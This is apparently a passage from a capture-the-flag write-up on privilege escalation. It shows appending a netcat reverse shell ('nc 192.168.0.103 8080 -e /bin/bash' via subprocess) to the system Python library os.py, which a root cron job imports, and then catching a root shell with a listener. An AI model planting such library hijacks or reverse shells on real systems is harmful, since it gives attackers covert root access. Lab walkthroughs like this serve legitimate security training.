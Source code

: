 **OUTPUT**

```bash
/usr/lib/python39.zip
/usr/lib/python3.9
/usr/lib/python3.9/lib-dynload
/usr/local/lib/python3.9/dist-packages
/usr/lib/python3/dist-packages
```

Let´s go to `/usr/lib/python3.9` and open `os.py` and add these lines to the end of the file :

#### Step 3: Set up reverse shell

Using vim:

```bash
vim os.py
```

```python
### REVERSE SHELL ###
import subprocess
subprocess.call("nc " + "192.168.0.103 8080 -e /bin/bash", shell=True)
```

**Key points:** 
- The `subprocess` module is part of Python's standard library and allows you to spawn new processes, interact with their input/output/error pipes, and obtain their return codes.
- `shell=True` This argument tells the `subprocess.call` function to execute the command through the system's shell.

>[!Note]
>To avoid breaking the `os.py` file it is recommended to put these lines at the end so that they are executed after the file has been loaded.

Let´s go a our terminañ:

```bash
nc -lnvp 8080
listening on [any] 8080 ...
```

```bash
connect to [192.168.0.103] from (UNKNOWN) [192.168.0.102] 57446
whoami
root
script /dev/null -c bash
Script started, output log file is '/dev/null'.
```

```bash
root@system:~# ls
```

**OUTPUT**

```bash
root.txt
```

---

>[!tip] Congratulations!
You explored an XXE vulnerability to access local files and leveraged a privilege misconfiguration to escalate access by hijacking a Python script executed via a cron job.
Thank you for completing this challenge!
